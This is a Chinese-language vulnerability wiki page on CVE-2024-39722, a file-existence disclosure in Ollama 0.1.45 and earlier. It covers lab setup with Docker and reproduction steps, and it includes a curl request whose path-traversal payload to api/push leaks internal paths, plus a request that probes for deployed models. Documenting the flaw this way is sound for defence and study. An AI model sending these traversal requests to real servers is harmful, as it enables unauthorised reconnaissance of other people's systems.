



# Ollama 文件存在性泄露漏洞 CVE-2024-39722

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 主入口api/push与39719的api/create不同，是独立编号/机制
- 修复0.1.46在影响正文内，metadata和修复章未规范表达
- 章节声称文件存在性，但展示主要是内部路径和模型存在性，需区分证据覆盖
- 启动后拉模型步骤会依赖网络和模型可用性，应说明是样例依赖

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Ollama 0.1.45 及之前的版本中，攻击者可以通过 `api/push` 端点的路径遍历暴露服务器上存在的文件。

当调用 `api/push` 路由并提供一个不存在的路径参数时，服务器会将转义后的 `URI` 直接返回给攻击者，从而泄露目标服务器及执行该请求的用户的文件存在性信息，这一漏洞为攻击者提供了一种探测文件是否存在的手段。

参考链接：

- https://github.com/advisories/GHSA-cfxq-8762-vx3v
- https://oligosecurity.webflow.io/blog/more-models-more-probllms

## 漏洞影响

```
Ollama ≤ 0.1.45 
Fixed in version 0.1.46
```

## 环境搭建

docker-compose.yml

```
services:
  ollama:
    image: ollama/ollama:0.1.45
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

执行如下命令启动 Ollama 0.1.45 服务，并拉取任意一个模型，模拟真实部署环境，例如 `codegemma:2b` ：

```shell
docker compose up -d
docker exec -it ollama ollama run codegemma:2b
```

环境启动后，访问 `http://your-ip:11434/`，此时 Ollama 0.1.45 已经成功运行。




## 漏洞复现

通过 HTTP 暴露服务器目录结构：

```shell
curl http://your-ip:11434/api/push -d '{ "name": "../../../test../../../:../../../test../../../", "insecure": true, "stream": true }'
-----
{"status":"retrieving manifest"}
{"status":"couldn't retrieve manifest"}
{"error":"stat /root/.ollama/models/manifests/registry.ollama.ai/library/latest: no such file or directory"}
```




基于服务器目录结构，可探测部署的模型：

```shell
curl http://your-ip:11434/api/push -d '{ "name": "codegemma:2b", "insecure": true, "stream": true }'
```




## 漏洞修复

- 升级至最新版本 https://github.com/ollama/ollama


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
